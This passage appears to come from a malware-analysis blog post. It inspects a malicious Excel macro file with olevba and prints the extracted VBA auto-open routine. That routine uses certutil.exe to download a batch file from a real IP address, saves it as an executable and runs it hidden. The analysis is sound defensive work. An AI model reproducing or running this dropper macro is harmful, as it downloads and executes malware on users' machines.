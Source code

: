 Suspicious macros can be checked with olevba and hand us more information of things that are happening here.

```
olevba malware.xlsm
```

<img src="../img/blog-22-ukrainianmw-olevba.png" width="750">

Here we will find out that the tool detected a malicious macro that will run when macros are enabled.

```vba
Private Sub Workbook_Open()
PID = Shell("cmd /c certutil.exe -urlcache -split -f ""http://3.112.243.28/net/Ugrfa.bat"" Opcbuyjhg.exe.exe && Opcbuyjhg.exe.exe", vbHide)
End Sub
```

The certutil.exe is a legitimate software, but used to download a binary (Ugrfa.bat) from a remote server and run it. The URL is classified as malicious by multiple vendors per VirusTotal.
